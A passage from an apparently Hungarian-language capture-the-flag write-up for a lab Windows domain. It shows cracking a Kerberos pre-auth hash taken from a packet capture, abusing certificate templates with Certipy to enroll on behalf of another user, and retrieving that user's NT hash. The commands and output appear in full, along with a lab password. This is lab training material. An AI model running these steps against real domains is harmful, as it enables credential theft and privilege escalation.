 ```bash
python krb5_roast_parser.py WS-01_PktMon.pcap as_req >> hash.txt
```

### Hashcat törés

```bash
hashcat -m 19900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Jelszó: `!QA*****`**


---

## Certipy – PFX szerzés

### Lion.SK

```bash
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p "\!QAZ2wsx" -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 24
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saved certificate and private key to 'lion.sk.pfx'
```

### Ryan.K

```bash
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p "\!QAZ2wsx" -dc-ip '10.10.11.71' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saved certificate and private key to 'ryan.k.pfx'
```

### NTLM hash kinyerése

```bash
certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: ryan.k@certificate.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eea<hash>
```
